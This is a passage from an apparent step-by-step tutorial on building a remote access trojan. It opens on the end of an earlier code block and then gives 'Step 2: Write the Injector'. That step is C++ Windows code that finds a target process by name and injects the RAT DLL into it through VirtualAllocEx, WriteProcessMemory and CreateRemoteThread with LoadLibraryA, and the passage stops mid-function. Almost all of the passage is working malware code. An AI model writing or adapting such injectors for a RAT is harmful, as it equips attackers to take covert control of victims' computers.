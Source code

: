 ```
    return TRUE;
}
```

#### Step 2: Write the Injector

This injector will use the same principles discussed previously to inject the RAT DLL into the target process.

```cpp
// Injector.cpp
#include <windows.h>
#include <tlhelp32.h>
#include <tchar.h>

DWORD GetTargetProcessId(const TCHAR* processName) {
    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) {
        return 0;
    }

    Process32First(snapshot, &processEntry);
    do {
        if (_tcsicmp(processEntry.szExeFile, processName) == 0) {
            CloseHandle(snapshot);
            return processEntry.th32ProcessID;
        }
    } while (Process32Next(snapshot, &processEntry));

    CloseHandle(snapshot);
    return 0;
}

void InjectDLL(DWORD processId, const char* dllPath) {
    HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (process == NULL) {
        return;
    }

    LPVOID allocatedMemory = VirtualAllocEx(process, NULL, strlen(dllPath) + 1, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (allocatedMemory == NULL) {
        CloseHandle(process);
        return;
    }

    WriteProcessMemory(process, allocatedMemory, dllPath, strlen(dllPath) + 1, NULL);

    HANDLE thread = CreateRemoteThread(process, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, allocatedMemory, 0, NULL);
    if (thread == NULL) {
        VirtualFreeEx(process, allocatedMemory, 0, MEM_RELEASE);
        CloseHandle(process);
        return;
    }

    WaitForSingleObject(thread, INFINITE);

    VirtualFreeEx(process, allocatedMemory, 0, MEM_RELEASE);
    CloseHandle(thread);
    CloseHandle(process);
```